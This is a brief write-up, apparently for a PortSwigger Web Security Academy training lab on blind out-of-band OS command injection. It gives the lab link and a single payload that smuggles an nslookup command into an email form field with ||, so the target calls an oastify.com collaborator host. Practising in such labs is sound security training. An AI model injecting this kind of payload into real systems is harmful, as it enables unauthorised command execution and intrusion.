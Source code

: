 # Lab

https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band

## Payload

`email=||nslookup+nne6vesek05hjz3q9c8k5p9c137uvkj9.oastify.com||`